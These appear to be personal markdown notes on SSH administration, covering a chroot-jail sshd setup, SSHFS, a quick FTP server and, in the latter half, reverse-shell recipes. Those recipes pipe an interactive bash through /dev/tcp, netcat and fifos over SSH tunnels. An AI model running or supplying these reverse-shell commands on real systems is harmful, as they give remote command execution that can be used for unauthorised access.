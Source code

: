 ## SSH

- `-X`  Enables X11 (display) forwarding. (But this allows an attacker to listen to my keystrokes.)
- create a pipe between machines

## SSHD

### chroot jail

I set up the following in `/etc/ssh/sshd_config`
```
Match Group chrootjail
	ChrootDirectory /var/chrootjail/
	PasswordAuthentication no
	AuthorizedKeysFile /var/chrootjail/home/%u/.ssh/authorized_keys
```

To make the jail have an interface, though, I needed to copy `/bin/bash` into the jail and also its dependencies, which are given from `ldd /bin/bash`.

I also had to create the `/var/chrootjail/home` directory and create a user and set his home directory and set his group membership.

In `/etc/passwd`, I use the usual paths: 
```
jailed-user:x:1007:1009::/home/jailed-user:/bin/bash
```
...but I created the `home` directory and its contents in `/var/chrootjail`. (The home dirs themselves are owned by the users and have permissions `0700`.) (Don't forget to add the user to the `chrootjail` group, since I'm using a group-based rule.)

```sh
useradd -m --base-dir /var/chrootjail/home -g chrootjail sagicor # Create jailed home
mkdir -m 0700 ~sagicor/.ssh
install -m 0600 /dev/null ~sagicor/.ssh/authorized_keys
chown -R sagicor ~sagicor
# Change homedir so that when logged-in, it's relative to the chroot
usermod -d /home/sagicor sagicor
```

## SSHFS

```bash
# Mount a remote directory:
sshfs ${user}@${host}:${path} $mydir
# "path" can be absolute or relative to the user's $HOME
# "user@host" can be an alias from .ssh/config
# "mydir" should be an empty local directory

# Unmount the directory:
fusermount -u $mydir 
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbNTU5NjA3ODU5LC04NDIxMjMzMzgsMTcyMT
I5MDgzMF19
-->

## FTP

```bash
python -m pyftpdlib [--help]
python -m pyftpdlib -w -u <uname> -P <pass>
```

## Reverse Shell
### With SSH tunnels
First, start listening on the server:
```bash
nc -l -k localhost 8889
```
Then on the target machine:
```bash
# Open SSH tunnel
ssh -N -L 8889:localhost:8889 qa -f # local -> remote
# Start shell
sudo bash -c 'bash -i >& /dev/tcp/127.0.0.1/8889 0>&1'
```
### Echo only
```bash
# target terminal A
ssh -N -R 8888:localhost:8888 qa
# target terminal B
nc -l localhost 8888
# bridge server
nc localhost 8888 # Then enter text
```
## Execute only
```bash
# target terminal A
ssh -N -R 8888:localhost:8888 qa
# target terminal B
mkfifo nci
nc -l localhost 8888 >nci
# target terminal C
/bin/bash -i 0<nci
# brige server
nc localhost 8888 # then type commands, whose output appears on target:C
```
## Echo on bridge only
```bash
# target terminal A
ssh -N -L 8889:localhost:8889 qa
# bridge server A
nc -l -k localhost 8889
# target terminal B
nc localhost 8889 # then type text which appears in bridge:A
```
...with a fifo:
```bash
# target terminal A
ssh -N -L 8889:localhost:8889 qa
# target terminal A
mkfifo nco
nc localhost 8889 <nco
# bridge server A
nc -l -k localhost 8889
# target terminal B
echo foo > nco # This only works for the first echo. Why?
```
## Execute and echo back
```bash
# target terminal F
ssh -N -L 8889:localhost:8889 qa
# target terminal A
ssh -N -R 8888:localhost:8888 qa
# target terminal B
mkfifo nci
nc -l -k localhost 8888 >nci
# target terminal C
mkfifo nco
nc localhost 8889 <nco
# target terminal D
/bin/bash -i 0<nci >nco
# bridge server A
nc localhost 8888 # then enter commands, whose output will appear on bridge:B
# bridge server B
nc -l localhost 8889
```
